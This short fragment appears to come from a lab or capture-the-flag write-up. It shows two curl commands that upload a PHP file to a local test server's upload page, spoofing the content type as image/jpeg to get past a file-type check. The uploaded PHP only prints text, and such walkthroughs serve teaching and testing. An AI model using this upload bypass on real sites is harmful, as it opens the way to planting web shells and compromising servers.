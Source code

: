 echo '<?php echo "File Upload" ?>' > /tmp/script.php && curl -X POST -F "Upload=Upload" -F "uploaded=@/tmp/script.php;type=image/jpeg" "http://192.168.56.110/index.php?page=upload" > script.html

curl -F "Upload=send" -F "uploaded=@script.php;type=image/jpeg" http://192.168.56.110/index.php\?page\=upload > script.html